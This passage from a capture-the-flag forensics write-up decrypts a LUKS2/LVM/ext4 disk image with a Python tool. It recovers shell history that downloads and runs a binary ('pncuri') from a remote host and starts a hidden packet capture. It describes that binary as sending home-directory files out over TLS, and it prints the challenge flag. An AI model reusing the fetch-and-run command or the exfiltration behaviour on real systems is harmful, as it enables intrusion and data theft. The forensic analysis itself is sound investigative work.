    raise FileNotFoundError(f"Flag not found under {start_path}")


def extract_tree(
    fs: Ext4Fs,
    *,
    start_path: str,
    out_dir: Path,
    max_file_bytes: Optional[int] = None,
    symlink_mode: str = "symlink",  # symlink|file|skip
    errors_log: Optional[Path] = None,
) -> None:
    """
    Extract an ext4 directory tree to the host filesystem.

    - Regular files are streamed block-by-block (supports large files).
    - Symlinks: recreate as symlinks (default), write as text file with the target, or skip.
    - Device nodes / sockets / FIFOs are skipped.
    """
    if not start_path.startswith("/"):
        raise ValueError("start_path must be absolute")
    if symlink_mode not in ("symlink", "file", "skip"):
        raise ValueError("symlink_mode must be one of: symlink, file, skip")

    out_dir.mkdir(parents=True, exist_ok=True)
    start_inum = fs.resolve_path(start_path)
    start_inode = fs.read_inode(start_inum)
    if not start_inode.is_dir:
        raise ValueError("start_path is not a directory")

    # Map ext4 absolute path -> relative path under out_dir.
    base_rel = Path(start_path.lstrip("/")) if start_path != "/" else Path(".")

    stats = {"dirs": 0, "files": 0, "symlinks": 0, "skipped": 0, "errors": 0}
    seen_files: Dict[int, Path] = {}  # inode -> first extracted relative path (hardlink support)
    seen_dirs: set[int] = set()

    def rel_to_ext4_path(rel: Path) -> str:
        s = str(rel)
        if s in ("", "."):
            return start_path
        return "/" + s

    err_f = None
    if errors_log is not None:
        errors_log.parent.mkdir(parents=True, exist_ok=True)
        err_f = open(errors_log, "w", encoding="utf-8", errors="replace")

    def log_error(kind: str, rel_path: Path, inode: Optional[Inode], exc: Exception) -> None:
        stats["errors"] += 1
        if err_f is None:
            return
        inum = inode.inum if inode is not None else -1
        ftype = inode.ftype if inode is not None else -1
        err_f.write(f"{kind}\t{rel_to_ext4_path(rel_path)}\tinode={inum}\tftype=0x{ftype:x}\t{exc!r}\n")
        err_f.flush()

    def dump_regular(inode: Inode, rel_path: Path) -> None:
        if max_file_bytes is not None and inode.size > max_file_bytes:
            stats["skipped"] += 1
            return
        out_path = out_dir / rel_path
        out_path.parent.mkdir(parents=True, exist_ok=True)

        prev = seen_files.get(inode.inum)
        if prev is not None:
            # Best effort: preserve hard links.
            try:
                os.link(out_dir / prev, out_path)
                stats["files"] += 1
                return
            except Exception:
                pass

        try:
            with open(out_path, "wb") as f:
                for chunk in fs.iter_file_blocks(inode):
                    f.write(chunk)
            seen_files[inode.inum] = rel_path
            try:
                os.chmod(out_path, inode.mode & 0o7777)
            except Exception:
                pass
            stats["files"] += 1
        except Exception as e:
            log_error("file", rel_path, inode, e)

    def dump_symlink(inode: Inode, rel_path: Path) -> None:
        if symlink_mode == "skip":
            stats["skipped"] += 1
            return
        out_path = out_dir / rel_path
        out_path.parent.mkdir(parents=True, exist_ok=True)
        try:
            target = fs.read_symlink_target(inode)
            if symlink_mode == "file":
                with open(out_path, "wb") as f:
                    f.write(target.encode("utf-8", errors="surrogateescape"))
            else:
                # symlink_mode == "symlink"
                try:
                    out_path.unlink()
                except FileNotFoundError:
                    pass
                os.symlink(target, out_path)
            stats["symlinks"] += 1
        except Exception as e:
            log_error("symlink", rel_path, inode, e)

    def walk_dir(dir_inum: int, rel_dir: Path) -> None:
        if dir_inum in seen_dirs:
            return
        seen_dirs.add(dir_inum)

        out_path = out_dir / rel_dir
        out_path.mkdir(parents=True, exist_ok=True)
        stats["dirs"] += 1

        inode = fs.read_inode(dir_inum)
        try:
            ents = fs.list_dir(inode)
        except Exception as e:
            log_error("dir", rel_dir, inode, e)
            return

        for name, child_inum, _ftype in ents:
            if name in (".", ".."):
                continue
            child = fs.read_inode(child_inum)
            child_rel = rel_dir / name
            if child.is_dir:
                walk_dir(child_inum, child_rel)
            elif child.is_reg:
                dump_regular(child, child_rel)
            elif child.is_symlink:
                dump_symlink(child, child_rel)
            else:
                stats["skipped"] += 1

    walk_dir(start_inum, base_rel)
    if err_f is not None:
        err_f.close()
    print(
        f"extracted to {out_dir} start={start_path} "
        f"dirs={stats['dirs']} files={stats['files']} symlinks={stats['symlinks']} "
        f"skipped={stats['skipped']} errors={stats['errors']}"
    )


def main() -> None:
    ap = argparse.ArgumentParser(description="Read-only LUKS2+LVM+ext4 reader for this challenge image.")
    ap.add_argument("--image", default="99315040-CB05-42ED-8125-EF919C5E8AFC.raw", help="Path to the .raw image")
    ap.add_argument("--luks-master-key", default="extracted/sda3-luks-master.bin", help="64-byte LUKS master key file")
    ap.add_argument("--luks-hdr", default="extracted/luks_header_first8k.bin", help="First 8K of LUKS header (for JSON)")
    ap.add_argument("--part3-start-sector", type=int, default=5136384, help="Partition 3 start sector")
    ap.add_argument("--lv-name", default="ubuntu-lv", help="LVM logical volume name to read")

    ap.add_argument("--extract-all", action="store_true", help="Extract the ext4 tree to --out-dir")
    ap.add_argument("--start-path", default="/", help="Ext4 path to extract (absolute), default /")
    ap.add_argument("--out-dir", default="extracted/rootfs", help="Output directory for extraction")
    ap.add_argument("--max-file-bytes", type=int, default=0, help="Skip files larger than this (0 = no limit)")
    ap.add_argument(
        "--symlink-mode",
        choices=("symlink", "file", "skip"),
        default="symlink",
        help="How to handle symlinks during extraction",
    )
    ap.add_argument("--errors-log", default="", help="Write extraction errors to this file (optional)")
    ap.add_argument("--find-flag", action="store_true", help="Search for ARA7{...} in small files (debug/helper)")
    ap.add_argument("--flag-start", default="/", help="Start path for --find-flag")

    args = ap.parse_args()

    img_path = Path(args.image)
    key_path = Path(args.luks_master_key)

    part3_start_sector = int(args.part3_start_sector)

    # Parse LUKS2 JSON from the partition header to get segment offset.
    luks_hdr = Path(args.luks_hdr).read_bytes()
    meta = parse_luks2_json_from_header(luks_hdr)
    segment_offset = int(meta["segments"]["0"]["offset"])
    if meta["segments"]["0"]["encryption"] != "aes-xts-plain64":
        raise ValueError("Unexpected segment encryption")
    if int(meta["segments"]["0"]["sector_size"]) != SECTOR_SIZE:
        raise ValueError("Unexpected sector size")

    master_key = key_path.read_bytes()

    luks_reader = Luks2XtsReader(
        img_path=img_path,
        master_key=master_key,
        part3_start_sector=part3_start_sector,
        segment_offset_bytes=segment_offset,
        sector_size=SECTOR_SIZE,
    )

    try:
        # Decrypt a chunk near PV start to parse LVM metadata and locate the LV.
        pv_start = luks_reader.read_plain(0, 256 * 1024)
        lvm_text = parse_lvm_metadata_text(pv_start)
        mapping = parse_lv_mapping_from_lvm_text(lvm_text, lv_name=str(args.lv_name))

        lv = LvReader(luks_reader, mapping.lv_start_pv_sector)
        fs = Ext4Fs(lv)

        if args.extract_all:
            max_bytes = None if int(args.max_file_bytes) <= 0 else int(args.max_file_bytes)
            extract_tree(
                fs,
                start_path=str(args.start_path),
                out_dir=Path(args.out_dir),
                max_file_bytes=max_bytes,
                symlink_mode=str(args.symlink_mode),
                errors_log=(Path(args.errors_log) if str(args.errors_log) else None),
            )
            return

        if args.find_flag:
            flag, where = find_flag_in_ext4(fs, str(args.flag_start))
            print(flag)
            print(f"FOUND_IN={where}")
            return

        print(f"ext4 block_size={fs.block_size} inodes={fs.inodes_count} groups={fs.groups_count}")
        print("Use --extract-all to dump the filesystem tree.")
    finally:
        luks_reader.close()


if __name__ == "__main__":
    main()
```

I started with the home directory using `python3 solve_luks_lvm_ext4.py --extract-all --start-path /home --out-dir extracted/rootfs_home`. The recovered shell history showed execution of `pncuri` and a packet capture under `/var/tmp`.

```bash
curl http://192.168.65.1:3456/pncuri -o /tmp/pncuri
ls
cd /tmp
ls
chmod +x pncuri
ls
clear
ls
./pncuri
...
cd
sudo nohup tcpdump -i any -s 0 -w /var/tmp/.system_cache.pcap > /dev/null 2>&1 &
```

Carving `/tmp` did not recover `pncuri`, so I moved to the PCAP. I extracted it with `python3 solve_luks_lvm_ext4.py --extract-all --start-path /var/tmp --out-dir extracted/out_var_tmp`.



The capture contained a large amount of traffic. I started with HTTP and recovered `pncuri`, which was packed with UPX.



After unpacking and decompiling it, I found that it recursively read regular files under `/home/afrizal` and sent them over TLS to `192.168.65.1:8443`. I narrowed the traffic with `ip.dst == 192.168.65.1 && tcp.dstport == 8443`. GPT helped recover a PDF from the capture.

The PDF contained redacted text. I copied the text beneath the redaction and submitted it as the flag, which was accepted.



### Flag

```text
ARA7{Makanya Mending Nyawit}
```
